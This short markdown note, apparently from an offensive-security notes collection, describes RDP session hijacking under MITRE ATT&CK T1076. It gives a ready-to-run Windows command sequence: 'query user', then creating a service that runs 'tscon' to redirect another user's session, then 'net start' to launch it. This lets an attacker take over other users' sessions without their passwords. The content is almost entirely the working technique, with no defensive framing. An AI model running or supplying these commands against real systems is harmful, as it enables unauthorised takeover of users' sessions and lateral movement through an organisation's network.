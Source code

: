 ## Remote Desktop Protocol

MITRE ATT&CK Technique: [T1076](https://attack.mitre.org/wiki/Technique/T1076)


#### [RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) — how to hijack RDS and RemoteApp sessions transparently to move through an organization

retrieve the session ID:

    query user

Set the session ID and rdp-tcp# retrieved from `query user`

    sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"

Access the session:

    net start sesshijack

